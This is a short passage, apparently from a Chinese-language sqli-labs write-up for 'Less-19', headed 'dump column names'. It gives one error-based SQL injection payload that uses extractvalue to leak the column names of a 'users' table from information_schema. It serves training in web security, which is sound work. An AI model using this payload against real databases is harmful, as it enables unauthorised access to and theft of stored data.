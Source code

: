 

+ 爆列名

~~~ shell
'and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users' and table_schema=database()),0x7e)) and '
~~~

![Less-19_2](./img/Less-19_2.PNG)
